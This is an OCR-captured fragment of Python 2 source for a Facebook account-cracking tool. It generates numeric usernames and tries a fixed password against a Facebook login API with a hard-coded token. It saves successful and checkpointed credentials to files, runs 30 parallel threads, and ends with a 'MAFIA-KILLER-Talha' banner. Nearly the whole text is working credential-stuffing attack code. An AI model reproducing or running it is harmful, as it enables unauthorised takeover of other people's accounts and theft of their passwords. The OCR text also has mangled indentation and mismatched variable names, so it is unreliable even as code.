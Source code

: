  					                cps.close()
 					                cpb.append(c+user+pass3)
                                                else:
 				                    pass4="banglades"
 				                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
 				                    q = json.load(data)
 				                    if 'access_token' in q:
 				                        print '\x1b[1;92m{Hacked100%💉}  ' + k + c + user + '  》  ' + pass4+'\n'+"\n"
 				                        okb = open('save/successfull.txt', 'a')
 				                        okb.write(k+c+user+'-•◈•-'+pass4+'\n')
 				                        okb.close()
 				                        oks.append(c+user+pass4)
 				                    else:
 				                        if 'www.facebook.com' in q['error_msg']:
 					                        print '\033[1;96m[Checkpoint] ' + k + c + user + '  》  ' + pass4+'\n'
 					                        cps = open('save/checkpoint.txt', 'a')
 					                        cps.write(k+c+user+'-•◈•-'+pass4+'\n')
 					                        cps.close()
 					                        cpb.append(c+user+pass4)
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print "\033[1;96m💖━━━━━━━━━━━━💘💘💘(MAFIA-KILLER-Talha)💘💘💘━━━━━━━━━━━💖" 
	print '[✓] Process Has Been Completed ....'
	print '[✓] Total OK/CP : '+str(len(successfull))+'/'+str(len(checkpoint))
	print('[✓] CP File Has Been Saved : save/checkpoint.txt')
	print"""
(¯`🌹¯)🌷
`*.🍃.*´. 🌸🍃🌸:*¸. • 
¸.•´¸.•*¨) ¸🌹•*¨) 🌸 
🌸(¸.•´🍃(¸.•´ .•´ 🍃¸.🌸
🔮🌷*.*.¸¸¸¸.*.*.¸¸🌷🔮 　　┊　┊　┊
🔮🌷LOVE YOU🌷🔮 
　　┊　┊　┊
　　┊　┊    🔮   　　　
　　┊   🔮
　   🔮
(¯`🌹¯)🌷
`*.🍃.*´. 🌸🍃🌸:*¸. • 
¸.•´¸.•*¨) ¸🌹•*¨) 🌸 
🌸(¸.•´🍃(¸.•´ .•´ .🌸
	"""
	raw_input('\n[Press Enter To Go Back]')
	os.system('python2 hack.py')
		
if __name__ == '__main__':
	menu()
# Mau Ngapain Cuk?
